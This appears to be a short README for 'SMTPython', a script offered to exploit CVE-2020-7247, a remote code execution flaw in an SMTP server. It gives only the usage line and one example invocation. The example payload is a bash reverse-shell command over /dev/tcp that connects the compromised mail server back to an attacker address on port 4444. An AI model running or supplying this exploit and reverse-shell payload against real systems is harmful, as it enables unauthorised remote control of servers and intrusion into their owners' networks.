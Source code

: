# SMTPython

smtp exploit script

CVE-2020-7247

RemoteCodeExecution


usage:

./SMTPython.py <RemoteHOST> <PORT> <command> <name@host>
  
example:


./SMTPython.py 192.168.0.4 25 'bash -c "exec bash -i &> /dev/tcp/192.168.1.104 4444 <&1"' user@ubuntu

